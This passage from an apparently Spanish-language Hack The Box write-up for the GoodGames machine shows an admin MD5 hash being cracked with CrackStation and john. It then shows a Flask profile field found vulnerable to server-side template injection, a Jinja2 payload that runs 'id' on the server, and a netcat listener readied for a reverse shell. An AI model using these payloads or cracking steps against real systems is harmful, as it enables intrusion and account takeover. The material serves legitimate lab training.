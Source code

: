 ```bash
admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec
```


---

## Explotación

Como tenemos una contraseña que no esta en texto plano, vamos a usar el siguiente recurso web para crackear la contraseña: [CrackStation](https://crackstation.net/)

Resultado: `superadministrator`

![Captura](./Imágenes/web_6.png)

```bash
john -w:/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5
```

Con el usuario `admin` y la contraseña `superadministrator` podemos loguearnos en el panel de autenticación descubierto con virtual hosting anteriormente. 

![Captura](./Imágenes/web_5.png)

Desde este panel de administrador, tratamos de ver si reflejamos alguna entrada de teclado que hagamos. Vamos a la sección de cambiar nuestro nombre de perfil y vemos que es vulnerable a [SSTI](../../../OWASP%20TOP%2010/SSTI/Server-Side%20Template%20Injection%20-%20SSTI.md)

**Nota:** probamos este tipo de vulnerabilidad ya que con `wappalyzer` vemos que se usa `Flask` la cual en versiones desactualizadas puede ser vulnerable a SSTI

![Captura](./Imágenes/web_8.png)

```bash
{{7*7}}
```


![Captura](./Imágenes/web_7.png)

[Recomendamos visitar PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2---remote-command-execution)

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

![Captura](./Imágenes/web_9.png)

Confirmamos la ejecución remota de comandos. Ahora estamos en disposición de enviarnos una reverse shell.

```bash
nc -lvnp 443
```

Enviamos una reverse shell hacia nuestra IP de la VPN de Hack The Box
